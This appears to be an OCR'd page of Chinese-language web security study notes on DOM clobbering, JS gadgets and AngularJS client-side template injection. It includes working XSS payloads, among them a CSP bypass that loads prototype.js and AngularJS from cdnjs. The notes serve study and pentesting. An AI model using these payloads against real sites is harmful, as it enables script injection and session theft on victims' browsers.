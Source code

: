 假设有一个变量x，则通过`<form name="x">`可以覆盖document.x, window.x, 以及通过var定义的全局变量x，通过`<a id="x">`只能覆盖window.x, 以及通过var定义的全局变量x


dom clobbering需要配合页面里加载的js代码使用，常用js gadget：<https://gmsgadget.com/>

常见gadget成因：

* 将script等元素重新插入（可以绕过strict-dynamic）
* 将属性值作为HTML元素插入 / 拼接进HTML元素中
* 将属性值动态拼接进函数 
* 使用Angular, Vue等包含表达式语言的框架：可以尝试用这个表达式语言来插入script元素
* 用document.scripts来读取页面中的script元素：可以用name属性覆盖掉document.scripts
* 一些给属性赋值的函数可能存在原型链污染：例如axios旧版本的formToJSON函数：<https://gmsgadget.com/gadgets/axios/>


### 原型链污染


### mXSS（突变型XSS）


### CSTI（客户端模板注入）

利用客户端模板引擎，如Angular，Vue.js等

#### AngularJS

AngularJS 通过 ng-directives 扩展 HTML，例如ng-app 指令定义一个 AngularJS 应用程序，允许 AngularJS 处理 HTML 内容，从而在{{}}}内执行 JavaScript 表达式。

```markup
<div ng-app>
    {{constructor.constructor('alert(1)')()}}
    <ANY ng-init="constructor.constructor('alert(2)')()"></ANY>
</div>
```

若存在 CSP 且允许 `https://cdnjs.cloudflare.com`, 则可利用 AngularJS + Prototype 实现 XSS，angularJS提供了CSP兼容模式（ng-csp），在未使用 ng-csp 的情况下 AngularJS 会尝试自动检测 CSP 是否有指定 unsafe-eval，使用 ng-csp 后在CSP模式下仍然可以执行任意js代码。

```markup
  <script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
  <div ng-app ng-csp>
    {{$on.curry.call().alert('xss')}}
  </div>
```

`prototype.js` 为 `Function` 对象添加了 `curry` 方法，在不传入参数时返回 `this`。在非严格模式下，`[call()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/call)` 在省略 `thisArg` 时会传入全局对象，也就是将 `window` 对象作为 `this` 传入被调用的函数（curry）中。因此 `$on.curry.call()` 相当于返回 `window` 对象。

```markup
 <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js"></script>
 <div ng-app ng-csp>
    <input id=x autofocus ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>
 </div>
```
